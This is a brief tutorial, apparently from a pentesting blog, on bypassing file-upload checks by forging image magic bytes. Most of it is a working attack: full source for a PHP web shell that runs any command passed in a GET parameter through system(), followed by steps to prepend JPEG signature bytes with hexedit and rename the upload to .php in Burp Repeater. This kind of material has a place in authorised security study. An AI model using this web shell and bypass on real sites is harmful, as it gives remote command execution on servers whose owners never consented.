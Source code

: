 ## **Overview**

Magic Bytes are Basically strings that indicates a file type. You can check out a bunch of them [here](https://en.wikipedia.org/wiki/List_of_file_signatures?ref=danielxblack.ghost.io).



## **Exploitation**


- create a file with `.php.jpg` as the extension 
- Input the following code into the file and save it

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

- Since in this case we are uploading a `JPG` or `PNG` file, Files like this usually have one of the following magic numbers: `FFD8 DDE0`, `FFD8 FFDB` or `FFD8 FFE1`
- We can then change the first bytes and the last bytes using **hexedit** - `hexedit shell.php`
	- First bytes will be: `FFD8 FFDB`
	- Last bytes will be: `FFD9` (Always have to be)
	- Ctrl+S - To save

![](https://i.imgur.com/KsVAtWP.png)

- Open up burp suite and try to upload this file then intercept request
- Forward request to **Repeater** and rename to **anything.php** then click **Send**

 ![](https://i.imgur.com/J8fdr1b.png)

